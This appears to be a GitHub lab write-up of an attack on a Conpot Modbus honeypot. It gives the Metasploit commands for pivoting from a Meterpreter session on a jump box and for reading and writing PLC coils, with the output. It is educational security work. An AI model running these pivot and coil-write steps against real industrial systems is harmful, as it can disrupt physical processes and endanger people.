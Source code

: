 # ICS Honeypot Attack Lab: Modbus Exploitation via Conpot

This lab simulates a real-world ICS attack scenario by pivoting through a compromised Windows jump box and exploiting an industrial honeypot (Conpot) using Modbus protocol commands. The target runs on a segregated ICS subnet.

---

## Lab Setup

### Network Structure

```
Kali (Attacker)
   ↳ Meterpreter Session on Windows Jump Box (192.168.1.150)
       ↳ Pivot Route to ICS Subnet (10.0.0.0/24)
           ↳ Conpot Modbus Honeypot (10.0.0.200:5020)
```

### Tools Used

| Tool              | Purpose                       |
|------------------|-------------------------------|
| Kali Linux        | Attacker box                 |
| Metasploit        | Payloads, sessions, routing |
| Conpot            | ICS Honeypot (Modbus)        |
| Python + XML      | Template analysis            |

---

## Reconnaissance

### Target Identified via `ps aux`
Conpot is confirmed running on the honeypot with the Modbus template:

```bash
ps aux | grep conpot
```

### Modbus Template Location

```bash
find ~/conpot-env -name modbus.xml
```

Located at:
```
/home/username/conpot-env/lib/python3.8/site-packages/conpot/templates/default/modbus/modbus.xml
```

---

## Pivot: Route Through Meterpreter

```bash
meterpreter > run autoroute -s 10.0.0.0/24
```

> Adds a route from the jump box to the ICS subnet via `192.168.1.150`

---

## Exploitation with `modbusclient`

### 1. **Read Coil Values**

```bash
use auxiliary/scanner/scada/modbusclient
set RHOSTS 10.0.0.200
set RPORT 5020
set ACTION READ_COILS
run
```

> Successfully read coil address 1

---

### 2. **Write to a Coil**

```bash
set ACTION WRITE_COIL
set DATA_ADDRESS 1
set DATA 0
run
```

> ✅ Output:
```
10.0.0.200:5020 - Value 0 successfully written at coil address 1
```

---

## 📜 Sample Output

![Successful write coil](screenshots/Changed%20Coil%20Value%20in%20PLC.png)

---

## Analysis of `modbus.xml`

Extracted coil and register addresses from the honeypot XML:

```xml
<type>COILS</type>
<starting_address>1</starting_address>
<size>128</size>
```

---

## Summary

| Phase              | Result                   |
|-------------------|--------------------------|
| Initial Access     | Meterpreter session on Jump Box |
| Pivot              | `autoroute` to ICS subnet |
| Conpot Verification| Process running with Modbus |
| Read/Write Coils   | Successful via `modbusclient` |

---

## Ethical Notice

This lab is purely for educational and research purposes in a closed, controlled environment. No real systems were accessed.

---

## Next Steps

- Simulate unauthorized sensor manipulation
- Add logging and alerting via Conpot
- Expand to protocols like S7, BACnet, or DNP3

